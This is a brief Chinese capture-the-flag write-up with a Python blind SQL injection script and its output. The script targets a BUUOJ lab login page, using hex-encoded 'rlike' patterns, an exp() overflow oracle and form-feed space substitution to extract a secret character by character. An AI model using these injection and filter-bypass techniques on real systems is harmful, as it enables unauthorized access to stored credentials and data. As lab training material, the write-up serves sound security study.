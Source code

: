 由于`'`被过滤，所以rlike后面不能出现字符串，需要 将正则表达式 `^xxx` 转换成十六进制

同时`num_waf` 有个判断十六进制位数不能超过9位，既字符串不能超过4位`(一个字母对应2个十六进制数)`，所以在包含正则`^`以外的字符串超过`3`位时需要不断做替换，用3位字符串去匹配下一位

```
import requests as r
import string

url = "http://29d68ff8-0fbd-47e4-9de4-3702f4bb7a55.node4.buuoj.cn:81"
pt = string.ascii_letters+string.digits+"$"
# string.ascii_letters 所有字母  string.digits 所有数字


def str2hex(raw):
    ret = '0x'
    for i in raw:
    
        # ord 返回对应的ASCII数值，hex 返回16进制数，以字符串形式表示，rjust返回一个长度为2的字符串，不够用0替补
        # 转换16进制,16进制在数据库执行查询时又默认转换成字符串
        ret += hex(ord(i))[2:].rjust(2,'0')
    return ret

ans = ""
tmp = "^"

for i in range(24):
    for ch in pt:

        payload = f"||1 && username rlike 0x61646d && exp(710-(code rlike binary {str2hex(tmp+ch)}))#"

        payload = payload.replace(' ',  chr(0x0c)) # 0c 换页键

        data = {
            "username":"eki\\",
            "password":payload,
            "code":"1"
        }

        req = r.post(url+"/login.php",data=data,allow_redirects=False) 
        # 其实allow_redirects默认是True,所以是默认跳转

        if 'fail' in req.text:
            ans += ch
            print(tmp+ch,ans)
            if len(tmp) == 3:
                tmp = tmp[1:]+ch
            else:
                tmp += ch

            break

'''
^e e
^er er
^erg erg
ergh ergh
rghr erghr     
ghru erghru
hrui erghrui
ruig erghruig
uigh erghruigh
igh2 erghruigh2       
gh2u erghruigh2u
```